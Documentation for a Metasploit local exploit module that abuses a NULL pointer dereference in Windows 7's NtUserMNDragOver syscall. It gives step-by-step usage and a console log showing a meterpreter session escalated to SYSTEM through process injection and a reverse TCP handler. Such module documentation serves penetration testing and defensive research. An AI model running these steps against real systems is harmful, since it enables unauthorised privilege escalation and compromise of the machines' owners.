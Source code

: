 ## Vulnerable Application

This module exploits a NULL pointer dereference vulnerability in the win32 NtUserMNDragOver() syscall.
The NULL pointer dereference occurs because the xxxMNFindWindowFromPoint() function does not effectively check the validity of the tagPOPUPMENU objects it processes before passing them on to MNGetpItemFromIndex(), where the NULL pointer dereference will occur.
This module has been tested against Windows 7 x86 SP0 and SP1. Offsets within the solution may need to be adjusted to work with other versions of Windows, such as Windows Server 2008.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 x86
2. `use exploit/windows/local/ntusermndragover`
3. `set session <session>`
4. `exploit`
5. Get a SYSTEM session

## Scenarios

### Windows 7 SP0 x86

```
msf5 exploit(windows/local/ntusermndragover) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:4446
[*] Launching notepad.exe to host the exploit...
[+] Process 3388 launched.
[*] Injecting exploit into 3388 ...
[*] Executing exploit...
[*] Sending stage (180291 bytes) to 192.168.56.15
[*] Meterpreter session 2 opened (192.168.56.1:4446 -> 192.168.56.15:49173) at 2020-04-17 18:34:58 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
